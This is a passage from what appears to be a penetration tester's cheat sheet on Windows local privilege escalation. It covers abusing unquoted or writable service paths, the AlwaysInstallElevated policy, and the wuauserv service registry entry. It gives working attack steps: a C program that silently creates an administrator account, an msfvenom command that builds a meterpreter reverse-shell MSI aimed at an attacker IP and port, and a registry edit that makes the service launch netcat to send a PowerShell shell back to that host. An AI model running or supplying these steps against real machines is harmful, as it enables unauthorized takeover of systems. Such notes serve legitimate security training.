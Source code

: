 Exploit `VulnerableSvc`:

```
Cmd > move pwn.exe "C:\Program Files\Sub Directory\Vuln.exe"
Cmd > sc stop VulnerableSvc
Cmd > sc start VulnerableSvc
...Or reboot the PC if the attacker has SeShutdownPrivilege...
Cmd > shutdown /r /t 0
```

Malious binary example:

{% code title="pwn.c" %}
```c
// i686-w64-mingw32-gcc -o pwn.exe pwn.c

#include <stdio.h>
#include <stdlib.h>

void main() {
    system("net user snovvcrash Passw0rd! /add && net localgroup administrators snovvcrash /add");
}
```
{% endcode %}



### Always Install Elevated

* [https://www.cyberciti.biz/faq/howto-setup-openvpn-server-on-ubuntu-linux-14-04-or-16-04-lts/](https://www.cyberciti.biz/faq/howto-setup-openvpn-server-on-ubuntu-linux-14-04-or-16-04-lts/)

Check:

```
Cmd > reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
Cmd > reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Exploit:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f msi -o rev.msi
Cmd > msiexec /quiet /qn /i rev.msi
```



### wuauserv

```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\services\* | format-list * | findstr /i "snovvcrash Users Path ChildName"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
PS > reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.13.37 1337 -e powershell" /f
PS > Start-Service wuauserv
...get reverse shell...
PS > Get-Service wuauserv
PS > Stop-Service wuauserv
```
